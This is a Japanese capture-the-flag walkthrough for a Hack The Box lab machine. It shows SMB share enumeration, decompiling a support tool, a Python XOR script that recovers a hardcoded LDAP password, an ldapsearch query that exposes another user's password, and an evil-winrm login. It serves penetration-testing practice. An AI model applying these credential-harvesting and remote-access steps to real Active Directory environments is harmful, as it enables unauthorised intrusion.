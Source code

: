 まずsmbシェアを調べると、見慣れないsupport-toolsなフォルダがある。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174]
└─$ smbclient -L 10.10.11.174 

Password for [WORKGROUP\shoebill]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share 
  ```
  
 パスワード無しでsupport-toolsにアクセスして中身を確認する。
 
 ```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174]
└─$ smbclient //10.10.11.174/support-tools
Password for [WORKGROUP\shoebill]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jul 21 02:01:06 2022
  ..                                  D        0  Sat May 28 20:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 20:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 20:19:55 2022
  putty.exe                           A  1273576  Sat May 28 20:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 20:19:31 2022
  UserInfo.exe.zip                    A   277499  Thu Jul 21 02:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 20:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 20:19:43 2022
```

UserInfo.exe.zipがユーザ情報を得られそうなのでこれをダウンロードする。

```
smb: \> get UsreInfo.exe.zip
```
ダウンロード後、解凍してdnSpyで解析する。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174/support-tools]
└─$ unzip UserInfo.exe.zip
```
`UserInfo.exe`をdnSpyでみると暗号化されたパスワード、キー、そしてパスワードを生成する`getPassword()`関数が見つかる。

![dnspy](https://user-images.githubusercontent.com/85237728/194679210-75055544-fd20-497f-bbca-8caedabb954e.png)

XORは二回繰り返すと元に戻るので、このコードを参考にPythonスクリプトを書く。

```python
#!/usr/bin/env python3
from base64 import b64decode
from pwn import *

array = b64decode('0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E')
key = bytes('armando', 'utf-8')
ans = b''
for i in range(len(array)):
    temp = array[i] ^ key[i % len('armando')] ^ 223
    ans += pack(temp, 'all')

print('ans:', ans)
```
実行すると生のパスワードを得る。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174]
└─$ python3 decryptor.py
ans: b'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```
しかし、このパスワードはユーザsupportのパスワードではない。

もう少しdnSpyの解析結果をみると、`LdapQuery()`というLdapについての関数が見つかる。

![ldapq](https://user-images.githubusercontent.com/85237728/194679714-8b0abf6c-6c51-40f4-8785-4845d4691776.png)

これにより"ldap"という名前のユーザいることがわかった。

ユーザ名ldap、パスワードnvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmzのcredentialを使って`ldapsearch`コマンドを実行する。

以下のように実行してUser情報を調べると、ユーザsupportの「info」の欄にパスワードらしき文字列がある。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174/LdapSearch]
└─$ ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb'
...
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
...
```

ユーザ名support、パスワードIronside47pleasure40Watchfulで`evil-winrm`を実行したらユーザsupportのシェルがとれた。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174]
└─$ evil-winrm --ip 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'
```
![usertxt](https://user-images.githubusercontent.com/85237728/194680079-a0d7880f-ce8b-407e-8baf-f57a8367a305.png)

# 感想

やはり`ldapsearch`コマンドのenumが大切。ローカルの`bloodhound`や`ldapdomaindump`ではsupportのパスワードは得られなかった。

`ldapsearch`の結果をよく読んだり、dnSpyが解析したソースコードをよく読んで、何がおこなれているのか？やパスワード・ユーザ名を読み取るのが重要。
